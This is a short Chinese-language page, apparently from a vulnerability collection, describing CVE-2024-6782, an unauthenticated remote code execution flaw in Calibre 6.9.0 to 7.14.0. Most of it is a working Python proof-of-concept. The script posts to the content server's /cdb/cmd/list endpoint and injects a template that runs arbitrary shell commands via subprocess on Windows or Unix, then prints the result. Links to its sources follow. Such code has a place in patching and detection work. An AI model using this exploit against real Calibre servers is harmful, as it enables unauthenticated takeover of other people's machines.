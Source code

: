 # Calibre远程代码执行漏洞(CVE-2024-6782)

Calibre 6.9.0 ~ 7.14.0 中不当的访问控制允许未经身份验证的攻击者实现远程代码执行。

## poc

```python
#! /usr/bin/env python3
# PoC for: CVE-2024-6782
# Description: Unauthenticated remote code execution in 6.9.0 <= calibre <= 7.14.0
import json
import sys

import requests

_target = "http://localhost:8080"

def exploit(cmd):
    r = requests.post(
        f"{_target}/cdb/cmd/list",
        headers={"Content-Type": "application/json"},
        json=[
            ["template"],
            "", # sortby: leave empty
            "", # ascending: leave empty
            "", # search_text: leave empty, set to all
            1, # limit results
            f"python:def evaluate(a, b):\n import subprocess\n try:\n return subprocess.check_output(['cmd.exe', '/c', '{cmd}']).decode()\n except Exception:\n return subprocess.check_output(['sh', '-c', '{cmd}']).decode()", # payload
        ],
    )

    try:
        print(list(r.json()["result"]["data"]["template"].values())[0])
    except Exception as e:
        print(r.text)

if __name__ == "__main__":
    exploit("whami")
```

![8d4237fcfec48246cfa4fb6fe3e48327_CVE-2024-6782_01 calibre-rce](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408072136806.gif)

## 漏洞来源

- https://github.com/zangjiahe/CVE-2024-6782
- https://mp.weixin.qq.com/s/JlH43FVTgzV0O4m8jII3ug